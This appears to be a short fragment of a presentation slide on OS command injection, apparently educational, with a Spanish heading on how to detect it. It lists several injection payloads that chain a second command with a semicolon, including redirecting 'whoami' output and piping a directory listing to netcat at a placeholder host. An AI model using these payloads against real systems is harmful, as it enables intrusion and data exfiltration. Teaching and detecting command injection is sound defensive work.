

Ping
; ping -c 10
Redirection of Output
; whoami > test.txt
Bypassing with Netcat
; ls -la | nc {IP} {PORT}
# Como detectarlo